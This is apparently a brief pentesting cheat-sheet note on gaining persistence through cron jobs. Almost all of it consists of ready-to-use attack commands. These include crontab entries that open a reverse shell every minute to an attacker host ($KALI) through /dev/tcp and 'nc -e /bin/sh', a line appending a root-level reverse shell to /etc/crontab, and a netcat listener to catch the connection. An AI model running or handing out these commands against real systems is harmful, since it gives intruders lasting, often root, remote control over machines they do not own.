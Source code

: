 ```yaml
---
category: Uncategorized
tags: []
---
```

#### Cronjob every 1 min
```bash - target
crontab -e
* * * * * 0<&196;exec 196<>/dev/tcp/$KALI/443; sh <&196 >&196 2>&196
```

```bash - target
* * * * * nc -e /bin/sh $KALI 443
```

```bash - target
echo "*  *  *  *  * root nc $KALI 443 -e /usr/bin/bash" >> /etc/crontab
```

Listener

```bash - target
nc -lvp 443
```

Sometimes you have to set the user

```bash - target
crontab -e
*/10 * * * * pelle /path/to/binary
```